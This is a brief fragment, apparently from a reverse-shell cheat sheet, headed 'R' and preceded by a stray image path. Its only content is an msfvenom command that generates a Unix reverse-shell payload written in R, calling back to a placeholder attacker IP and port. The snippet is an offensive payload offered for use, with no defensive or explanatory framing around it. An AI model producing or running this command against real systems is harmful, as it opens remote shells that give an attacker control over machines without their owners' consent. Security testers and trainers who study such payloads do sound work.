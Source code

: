 # R

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_r lhost=<IP> lport=<PORT>
```